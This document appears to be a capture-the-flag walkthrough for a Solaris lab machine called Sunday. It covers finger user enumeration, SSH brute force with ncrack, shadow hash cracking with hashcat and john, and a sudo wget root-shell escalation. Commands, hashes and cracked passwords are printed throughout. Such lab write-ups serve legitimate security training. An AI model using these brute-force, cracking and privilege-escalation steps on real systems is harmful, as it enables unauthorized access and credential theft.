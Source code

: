 ## Title

### Lab Details 

- Difficulty: Easy 
- Type: Solaris 

#### Tasks

Q1: Which open TCP port is running the ```finger``` service?
 - nmap 10.10.10.76 -sT -A -T4 <!-- scanning for TCP -->
 
    ```
    ...
    PORT    STATE SERVICE VERSION
    79/tcp  open  finger?
    |_finger: No one logged on\x0D
    | fingerprint-strings: 
    |   GenericLines: 
    |     No one logged on
	...
    ```
  - nmap 10.10.10.76 -p- -A -T4 <!-- always good to scan full ports --> 
  
 
Q2: How many users can be found by enumerating the finger service? Considered as user if shown as pts.
  - Use finger-user-enum.pl perl script by pentestmonkey to enumerate for users 
  - Or Metasploit's module `auxiliary/scanner/finger/finger_users`
 -  https://github.com/pentestmonkey/finger-user-enum/blob/master/finger-user-enum.pl
```
...
sammy@10.10.10.76: sammy           ???            ssh          <May  6 07:35> 10.10.14.68         ..
sunny@10.10.10.76: sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
...
``` 

Q3: What is the password for the sunny user on Sunday (The machine)?
- Found ssh port is 22022 and no other info on the user -> brute force
```
22022/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4 (protocol 2.0) 
```
- Used ncrack with rockyou.txt
```
ncrack -vv  --user sunny -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.76:22022

Starting Ncrack 0.7 ( http://ncrack.org ) at 2025-05-14 20:18 AEST

Discovered credentials on ssh://10.10.10.76:22022 'sunny' 'sunday'
```

Q4: What is the password for sammy 
 - A folder named backup can be found on (/) root folder 
 - A file named shadow.backup resides in the folder which contains sunny and sammy's SHA256 password hash
 - Can use john or hashcat to crack
 - hashcat will require both shadow.backup as well /etc/passwd and unshadow will need to be run against the files
 ```hashcat
    ##### Crack /etc/shadow 
    - Requires unshadow of /etc/passwd and /etc/shadow
    - Command: unshadow passwd shadow > hash
    - Command: hashcat -m 7400 hash /usr/share/wordlists/rockyou.txt

    Content of /etc/shadow 
    sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
    sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
 - John does not require unshadow to be run 
```
##### Brute forcing /etc/shadow
- john ./shadow.backup --wordlist=/usr/share/wordlists/rockyou.txt 
    /etc/shadow
    sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
    sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Q5: What is flag located in sammy's home directory 
 - cat user.txt

Q6: What is the full path of the binary that user sunny can run with sudo privileges?
 - /root/troll

Q7: What is the complete path of the binary that user sammy can run with sudo privileges?
 - /usr/bin/wget

Q8: Submit the flag located in root's home directory.
- https://gtfobins.github.io/gtfobins/wget/
- since sammy is able to run wget as sudo without password then we can attempt to escalate the privilege by using wget
```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```


### Post Exploitation Note - Lesson Learned 

 - Always good to scan for all ports as `nmap -O -T4` or `nmap -sT -A -T4` does not scan for all ports which caused some ports to be missed during the initial enumeration.
 - As Q4 requires RCE for this machine and the first nmap only outputs 3 ports
```
map 10.10.10.76 -O -T4    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-14 19:30 AEST
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 44.37% done; ETC: 19:30 (0:00:16 remaining)
Nmap scan report for 10.10.10.76
Host is up (0.28s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
79/tcp  open  finger
111/tcp open  rpcbind
515/tcp open  printer
```
